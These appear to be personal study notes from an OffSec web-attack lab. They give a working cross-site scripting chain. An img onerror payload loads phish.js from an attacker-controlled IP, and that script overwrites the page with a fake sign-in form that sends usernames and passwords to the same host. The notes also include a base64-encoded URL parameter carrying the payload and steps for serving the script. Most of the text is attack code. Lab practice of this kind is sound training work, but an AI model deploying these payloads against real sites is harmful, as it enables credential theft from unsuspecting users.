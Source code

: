 

### Full Working:
Create `phish.js`
```bash    
document.getElementsByTagName("html")[0].innerHTML = "<form action='[http://192.168.45.236/login](http://192.168.45.236/login)' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"
```
Full payload in action before setting up `python3 server`
```js
#mine
<img src="x" onerror='const script = document.createElement("script");script.src ="http://192.168.45.236/phish.js";script.async = true;console.log("Script loaded successfully");document.body.appendChild(script);'>

#offsecs
<img src='x' onerror="const script = document.createElement('script'); script.src = '[http://192.168.45.236/phish.js](http://192.168.45.236/phish.js)'; script.async = true; document.body.appendChild(script);">
```
![[Pasted image 20240805213328.png]]
Hit `Share` to get working `URL-Encoding`
```URL
?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0ieCIgb25lcnJvcj0nY29uc3Qgc2NyaXB0ID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7c2NyaXB0LnNyYyA9Imh0dHA6Ly8xOTIuMTY4LjQ1LjIzNi9waGlzaC5qcyI7c2NyaXB0LmFzeW5jID0gdHJ1ZTtjb25zb2xlLmxvZygiU2NyaXB0IGxvYWRlZCBzdWNjZXNzZnVsbHkiKTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHNjcmlwdCk7Jz4gLFNhbWFudGhhLDEK
```
![[Pasted image 20240805213438.png]]
Now that we have the working `csv` open up `python3 server` to make sure that its grabbing `phish.js`
![[Pasted image 20240805213600.png]]
the `url` is in and we can see that the login page created `phish.js` is working
![[Pasted image 20240805213641.png]]



### Fresh Redo

##### Phish.js (login form redirect - from offsec)

```bash
┌──(root💀gobots)-[06Aug2024 18:55:21]-[/home/kali/SUT/OSWA/xss]
└─# cat phish.js   
document.getElementsByTagName("html")[0].innerHTML = "<form action='[http://192.168.45.236/login](http://192.168.45.236/login)' method='GET'><input type='text' placeholder='name@example.com' name='username'><input type='password' placeholder='Password' name='password'><button class='w-100 btn btn-lg btn-primary' type='submit'>Sign in</button></form>"
```
- The script `phish.js` is telling the html web page to point to `http://192.168.45.236/login` and present the login field below
